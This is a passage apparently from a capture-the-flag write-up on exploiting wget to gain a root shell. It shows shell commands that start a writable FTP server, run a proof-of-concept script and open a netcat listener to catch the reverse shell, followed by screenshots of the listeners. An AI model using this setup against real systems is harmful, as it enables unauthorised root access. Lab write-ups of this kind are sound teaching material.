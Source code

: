 We also need an FTP server and the host machine already has pyftpdlib installed:

```shell
authbind python -m pyftpdlib -p21 -w & >/dev/null
authbind python wget_poc.py & >/dev/null
nc -lvp 32000
```

![FTPd Listener](./resources/79a4b060bfe141f29667aa7697ac6ea9.png)

![wget Exploit Listener](./resources/9e0fdca1b28644e99a608434f615b540.png)

Why, hello there root shell! Gimme flag:

![Netcat Listener](./resources/15398bd72fa4402485a32b959df201df.png)
